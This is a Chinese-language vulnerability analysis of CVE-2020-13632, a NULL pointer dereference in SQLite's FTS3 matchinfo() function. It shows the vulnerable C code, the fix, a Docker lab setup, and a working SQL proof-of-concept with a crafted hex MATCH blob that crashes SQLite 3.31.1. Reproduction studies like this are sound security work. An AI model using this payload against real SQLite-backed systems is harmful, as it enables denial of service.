


# CVE-2020-13632 CWE-476 SQLite DoS

## 漏洞背景

- **SQLite：** 一个轻量级的、嵌入式的关系型数据库管理系统，它不需要单独的服务器进程，也不需要复杂的配置。SQLite 直接在文件系统上存储数据，具有零配置、易于使用和适合小型应用的特点。它支持标准的 SQL 语句，提供良好的数据安全性，并且因其轻量级特性被广泛应用于桌面和移动应用开发中。
- **FTS3（Full-Text Search 3）:** SQLite 提供的一种全文搜索虚拟表引擎，用于对大文本字段进行高效的关键词匹配与搜索操作。它是 `VIRTUAL TABLE` 的一种实现。
- **倒排文档（Inverted Document 或 Inverted Index）：**全文检索和搜索引擎领域常用的一种数据结构，用于实现高效的关键词检索。它的核心思想是：从“文档包含哪些词”转变为“每个词出现在哪些文档”。在 SQLite FTS3/FTS4 模块中，倒排文档（doclist）就是倒排索引的实现，存储了每个关键词出现的文档编号及其位置信息，便于高效的全文搜索和相关性排序。
- **matchinfo 函数：** FTS3/FTS4 扩展提供的查询辅助函数，用于获取当前 MATCH 查询中关键词命中信息，常用于计算相关度评分、实现自定义排序以及调试内部匹配逻辑。函数语法：`matchinfo([table], [format])`，table：FTS3 虚拟表名，format：一个格式字符串，决定返回信息的结构。`matchinfo()` 只能用于 `FTS3/FTS4` 的 `VIRTUAL TABLE` 查询中（即 `MATCH` 语句中），且返回的是 BLOB 类型（一串字节），需要使用`SELECT hex`或用扩展函数（如 rank、bm25）处理。
- **CWE-476 ( NULL Pointer Dereference)：**空指针解引用。如果一个指针变量的值为NULL，解引用这个指针时，会导致程序崩溃(Segmentation fault)。解引用（Dereferencing）是指通过指针访问其指向的内存单元中的值的操作。

## 漏洞原理

SQLite 在 3.32.0 之前的版本中，`ext/fts3/fts3_snippet.c` 存在空指针解引用漏洞，触发点在 `matchinfo()` 函数中。

`fts3ExprLHits()` 函数没有对 `pExpr->pPhrase->doclist.pList` 做非空检查，导致在处理非法构造的 `MATCH` 查询（如手动拼接的二进制表达式树）时，`pPhrase` 存在但 `pPhrase->doclist.pList` 为 NULL。随后对该 NULL 指针做遍历和解引用操作，导致空指针解引用（NULL dereference），程序崩溃（DoS）。

## 漏洞定位

在 ext\fts3\fts3_snippet.c 文件，第 **862** 行**`fts3ExprLHits`函数**是`matchinfo`函数的一部分，用于处理 'y' 或 'b' 格式的数据（即 每列短语命中次数 或 列命中位图）。

其中第 869 行，在获取获取倒排文档列表时，直接使用了 `pExpr->pPhrase->doclist.pList` 指针（赋给 `pIter`）而**没有判断其是否为 NULL**，就开始访问和遍历它。之后在第 879 行的循环遍历`column list`中，当 `pList` 为 NULL 时，`fts3ColumnlistCount(&pIter)` 和 `*pIter` 访问都会导致**空指针解引用（NULL dereference）**，引发程序崩溃。

如果构造过程中（如 `MATCH x'...';`）表达式非法或被破坏，加载失败，此时 `pPhrase->doclist.pList == NULL`，`fts3ColumnlistCount()` 调用时会操作 `pIter` 指向的内存，导致空指针崩溃。

```c
/*
** This function gathers 'y' or 'b' data for a single phrase.
*/
static int fts3ExprLHits(
  Fts3Expr *pExpr,                /* Phrase expression node */
  MatchInfo *p                    /* Matchinfo context */
){
  Fts3Table *pTab = (Fts3Table *)p->pCursor->base.pVtab;
  int iStart;
  Fts3Phrase *pPhrase = pExpr->pPhrase;
// ***** 869 行 **********  获取倒排文档列表 **************** 漏洞点 ************************
  char *pIter = pPhrase->doclist.pList;
  int iCol = 0;

  assert( p->flag==FTS3_MATCHINFO_LHITS_BM || p->flag==FTS3_MATCHINFO_LHITS );
    // 计算写入 aMatchinfo[] 的位置
  if( p->flag==FTS3_MATCHINFO_LHITS ){
    iStart = pExpr->iPhrase * p->nCol;
  }else{
    iStart = pExpr->iPhrase * ((p->nCol + 31) / 32);
  }
// ***** 879 行 ********** 遍历 column list，统计每列的命中数 *******************************
  while( 1 ){
    int nHit = fts3ColumnlistCount(&pIter); // ！!!这里如果 pIter 是 NULL，就会崩溃
    if( (pPhrase->iColumn>=pTab->nColumn || pPhrase->iColumn==iCol) ){
        // 写入结果到 aMatchinfo[]
      if( p->flag==FTS3_MATCHINFO_LHITS ){
        p->aMatchinfo[iStart + iCol] = (u32)nHit;
      }else if( nHit ){
        p->aMatchinfo[iStart + (iCol+1)/32] |= (1 << (iCol&0x1F));
      }
    }
      // 移动到下一个列编号
    assert( *pIter==0x00 || *pIter==0x01 );
    if( *pIter!=0x01 ) break;
    pIter++;
    pIter += fts3GetVarint32(pIter, &iCol);
    if( iCol>=p->nCol ) return FTS_CORRUPT_VTAB;
  }
  return SQLITE_OK;
}
```

## 漏洞修复

在`fts3ExprLHits()` 函数第 879 行，在遍历`column list`前增加了对 `pList` 的非空校验，避免空指针访问。

```c
if( pIter )  // 增加对 pList 的非空校验
    while( 1 ){
    int nHit = fts3ColumnlistCount(&pIter);
    if( (pPhrase->iColumn>=pTab->nColumn || pPhrase->iColumn==iCol) ){
      if( p->flag==FTS3_MATCHINFO_LHITS ){
        p->aMatchinfo[iStart + iCol] = (u32)nHit;
      }else if( nHit ){
        p->aMatchinfo[iStart + (iCol+1)/32] |= (1 << (iCol&0x1F));
      }
    }
```

## 影响范围

- SQLite ≤ 3.31.1
- 启用了 FTS3 模块：`matchinfo()` 属于 `FTS3`/`FTS4` 扩展模块
- 启用了 `SQLITE_ENABLE_FTS3_PARENTHESIS` 宏（即启用括号表达式解析支持）：必须支持复杂 `MATCH` 表达式（含括号、NOT、嵌套）才能走到崩溃逻辑

## 环境搭建

Docker 环境中 SQLite 版本为 3.31.1。

在 Dockerfile 中对 SQLite 进行编译时加入参数`-DSQLITE_ENABLE_FTS3_PARENTHESIS`以启用 `FTS3_PARENTHESIS`（括号表达式解析支持）。



## 漏洞复现

1. 使用命令进入容器命令行；

   ```bash
   docker exec -it sqlite-3.31.1 bash
   ```

2. 使用 sqlite3 创建 test_db 数据库并连接；

   ```bash
   sqlite3 test_db
   ```

3. 依次执行下面的 PoC 代码，可以看到 SQLite 发生段错误并崩溃退出。

   ```sql
   CREATE TABLE t_content(col0 INTEGER);
   
   CREATE VIRTUAL TABLE t0 USING fts3(col0 INTEGER PRIMARY KEY,col1 VARCHAR(8),col2 BINARY,col3 BINARY);
   
   INSERT INTO t0 VALUES (1, '1234','aaaa','bbbb');
   
   SELECT hex(matchinfo(t0,'yxy'))  FROM t0 WHERE t0 MATCH  x'2b0a312b0a312a312a2a0b5d0a0b0b0a312a0a0b0b0a312a0b310a392a0b0a27312a2a0b5d0a312a0b310a31315d0b310a312a316d2a0b313b15bceaa50a312a0b0a27312a2a0b5d0a312a0b310a312b0b2a310a312a0b2a0b2a0b2e5d0a0bff313336e34a2a312a0b0a3c310b0a0b4b4b0b4b2a4bec40322b2a0b310a0a312a0a0a0a0a0a0a0a0a0b310a312a2a2a0b5d0a0b0b0a312a0b310a312a0b0a4e4541530b310a5df5ced70a0a0a0a0a4f520a0a0a0a0a0a0a312a0b0a4e4541520b310a5d616161610a0a0a0a4f520a0a0a0a0a0a312b0a312a312a0a0a0a0a0a0a004a0b0a310b220a0b0a310a4a22310a0b0a7e6fe0e0e030e0e0e0e0e01176e02000e0e0e0e0e01131320226310a0b0a310a4a22310a0b0a310a766f8b8b4ee0e0300ae0090909090909090909090909090909090909090909090909090909090909090947aaaa540b09090909090909090909090909090909090909090909090909090909090909fae0e0f2f22164e0e0f273e07fefefef7d6dfafafafa6d6d6d6d';
   ```
   
   
   

## PoC分析

先进行一些初始化 SQL 操作，确保后续`matchinfo()`有合法对象可分析

```sql
-- 创建表格 t_content
CREATE TABLE t_content(col0 INTEGER);
-- 创建支持 FTS3 的虚拟表 t0，并包含多个列
CREATE VIRTUAL TABLE t0 USING fts3(
    col0 INTEGER PRIMARY KEY,
    col1 VARCHAR(8),
    col2 BINARY,
    col3 BINARY
);
-- 向 t0 中插入数据
INSERT INTO t0 VALUES (1, '1234','aaaa','bbbb');
```

之后使用手动构造非法的 MATCH 表达式， `x'......'` 是手动堆积内存结构来构造一棵伪造的 FTS3 表达式语法树（Fts3Expr 树），这一大段十六进制数据其实是故意构造出的“非法但结构上可解析”的语法树。在 `matchinfo()` 中触发访问未初始化字段，被`fts3ExprParse()`解析器错误解析为合法但不完整的 Fts3Expr 表达式树，导致某些节点中`pPhrase` 指针存在，但`pPhrase->doclist.pList == NULL` 或 `pPhrase->doclist.aAll == NULL`（未加载倒排表），将使 `fts3ColumnlistCount()` 在访问 `*pIter` 时 dereference 空指针，导致崩溃。

```sql
-- 调用 FTS3 扩展函数 matchinfo()，以十六进制返回结果，用于调试或验证触发路径
SELECT hex(matchinfo(t0,'yxy'))  
-- 查询 FTS3 虚拟表 t0
FROM t0 
-- 执行全文搜索；但输入的是一段非法构造的二进制字符串（非正常关键词）
WHERE t0 MATCH  x'2b0a312b0a312a312a2a0b5d0a0b0b0a312a0a0b0b0a312a0b310a392a0b0a27312a2a0b5d0a312a0b310a31315d0b310a312a316d2a0b313b15bceaa50a312a0b0a27312a2a0b5d0a312a0b310a312b0b2a310a312a0b2a0b2a0b2e5d0a0bff313336e34a2a312a0b0a3c310b0a0b4b4b0b4b2a4bec40322b2a0b310a0a312a0a0a0a0a0a0a0a0a0b310a312a2a2a0b5d0a0b0b0a312a0b310a312a0b0a4e4541530b310a5df5ced70a0a0a0a0a4f520a0a0a0a0a0a0a312a0b0a4e4541520b310a5d616161610a0a0a0a4f520a0a0a0a0a0a312b0a312a312a0a0a0a0a0a0a004a0b0a310b220a0b0a310a4a22310a0b0a7e6fe0e0e030e0e0e0e0e01176e02000e0e0e0e0e01131320226310a0b0a310a4a22310a0b0a310a766f8b8b4ee0e0300ae0090909090909090909090909090909090909090909090909090909090909090947aaaa540b09090909090909090909090909090909090909090909090909090909090909fae0e0f2f22164e0e0f273e07fefefef7d6dfafafafa6d6d6d6d';
```

## 参考链接

[NVD - CVE-2020-13632](https://nvd.nist.gov/vuln/detail/CVE-2020-13632#range-15057945)

[SQLite: 提交 [a4dd148928\] --- SQLite: Check-in [a4dd148928]](https://sqlite.org/src/info/a4dd148928ea65bd)

[SQLite: Artifact [00144e8417\]](https://sqlite.org/src/artifact/00144e841704b8de)
